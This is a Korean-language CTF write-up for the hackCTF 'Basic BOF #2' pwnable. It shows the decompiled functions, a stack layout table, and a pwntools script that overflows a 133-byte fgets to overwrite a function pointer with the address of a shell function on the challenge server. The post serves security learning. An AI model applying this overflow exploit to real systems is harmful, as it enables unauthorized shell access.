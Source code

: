 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #2"
date:   2020-02-09
---
```


hackCTF pwnable 두번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

### ida - main
***
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup; // sup 함수의 주소를 v5에 저장
  fgets(&s, 133, stdin); // stdin으로부터 133바이트를 입력 받아 s에 저장
  v5(); // v5가 가리키는 함수 실행
  return 0;
}
```
### ida - sup
***
```c
int sup()
{
  return puts(&s); // s에 저장된 문자열 출력
}
```

### ida - shell
***
```c
int shell()
{
  return system("/bin/dash"); // 쉘을 띄울 수 있다!
}
```
정리해보자.

| ebp |          |
|:---:|:--------:|
| ... |          |
|  v5 | esp+0x8C |
| ... |          |
|  s  |  esp+0xC |
| ... |          |
| esp |   esp+0  |


shell 함수를 실행하면 쉘을 띄울 수 있다. fgets로 133바이트를 입력 받을 때 v5를 shell의 주소로 덮으면 v5()를 실행했을 때 shell 함수가 실행된다.

![0201](https://drive.google.com/uc?id=1jGne8Jn_lJQK0Vm3wUtljgddfTBMbMoi)


### exploit.py
***
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3001)

payload = "A"*(0x8C-0xC) + p32(0x0804849B)

p.sendline(payload)

p.interactive()
```

![0202](https://drive.google.com/uc?id=1GApVrN8IkoCUKXN559Ldluu8rjXOXgtH)
